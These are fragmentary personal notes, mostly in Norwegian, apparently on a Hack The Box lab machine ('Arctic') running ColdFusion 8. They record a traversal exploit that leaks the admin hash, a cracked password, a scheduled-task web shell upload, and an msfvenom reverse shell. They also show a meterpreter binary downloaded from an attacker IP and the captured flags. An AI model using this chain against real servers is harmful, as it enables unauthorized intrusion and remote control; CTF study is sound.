 ## arctic 10.10.10.11

`135/tcp   open  msrpc`

`8500/tcp  open  fmtp`

`49154/tcp open  unknown`

Macromedia ColdFusion MX Server edition 6?

Adobe ColdFusion 8

får login med

`10.10.10.11:8500/CFIDE/administrator/enter.cfm?`

og passord prompt ved

`http://10.10.10.11:8500/CFIDE/wizards/common/_logintowizard.cfm`

[http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/](http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/)

avsløre en mappe. wooooooo

[http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl](http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl) for å vise versjon 8.0.1

\#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F\[\[E&gt;\[$\_6& \Q&gt;\[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true

javascript:alert\(hex\_hmac\_sha1\(document.loginform.salt.value,document.loginform.cfadminPassword.value\)\)

51681279BE771DE147003FBA6A6E4E557F833282

sha1 decrypt = **happyday**

debugging and logging. add scheduled task -&gt; upload cfm shell

[https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html](https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html)

[https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html](http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html)

bra cfm shell her [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

`whoami > C:\ColdFusion8\wwwroot\out.txt`

**arctic/tolis**

kjøre kommandoer til jeg finner noe gøy

Microsoft Windows **Server** **2008 R2 Standard x64**

/c dir "c:\coldfusion8\wwwroot\CFIDE" &gt; c:\coldfusion8\wwwroot\out.txt

/c dir "c:\coldfusion8\lib\neo-datasource.xml" &gt; c:\coldfusion8\wwwroot\out.txt

passord wsagavF3noHWGA8xe7rd4w

/c dir C:\Users\Administrator &gt; c:\coldfusion8\wwwroot\out.txt - ingenting

/c dir "C:\Users\All Users\Desktop" &gt; c:\coldfusion8\wwwroot\out.txt

/c type "c:\users\tolis\Desktop\user.txt" &gt; c:\coldfusion8\wwwroot\out.txt

```
dir c:\ /s /b /o:gn - viser alle fier i subdirs
```

får ut **02650d3a69a70780c302e146a6cb96f3**

prøvd flere reverse shells uten hell

prøvd å laste opp netcat også, men no dice

jsp shell funker. men bare med netcat?

ssl error i metasploit

tasklist /v

fant en unquoted service path for coldfusion8

`wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """`

`ColdFusion 8 .NET Service                               ColdFusion 8 .NET Service        C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe`

sc stop "ColdFusion 8 .NET Service"

funket ikke

whoami &gt; c:\coldfusion8\wwwroot\out.txt

kanskje applocker er enablet?

LFI?

[http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../Users/Tolis/Desktop/user.txt en](http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../Users/Tolis/Desktop/user.txt en)

% på slutten der

In the cfexec.cfm I executed c:\windows\system32\cmd.exe /c blablabla

1. That blablabla is a command obtanied with:
2. msfvenom -p windows/powershell\_reverse\_tcp lhost=YOURIP lport=PORT -f exe \| strings \| grep powershell &gt; out.ps1 - copypaste this
3. Before you execute that, you should have obviusly a handler on your machine.
4. With this you have a powershell shell like Tolis user.
5. Now you have to obtain meterpreter. Create a payload like this
6. msfvenom -p windows/meterpreter\_reverse\_tcp lhost YOURIP lport=PORT -f exe 
   &gt;
    a.exe
7. Move It to /var/www/html on your system and start your http server.
8. In the powershell shell execute:
9. $client = new-object System.Net.WebClient
10. $client.DownloadFile\("[http://10.10.12.238/a.exe](http://10.10.12.238/a.exe)", "c:\users\tolis\a.exe"\)
11. And now start a handler on your machine and execute on powershell
12. .\a.exe
13. And now you will have a meterpreter session like Tolis.

migrate to some other x64 process.

exploit/windows/local/ms10\_092\_schelevator no work

ms16-032 no work

rotten potato? no work

$client.DownloadFile\("[http://10.10.12.238/a.exe](http://10.10.12.238/a.exe)", "c:\users\tolis\a.exe"





root ce65ceee66b2b5ebaff07e50508ffb90

download c:\Users\tolis\Desktop\user.txt

user.txt **02650d3a69a70780c302e146a6cb96f3**

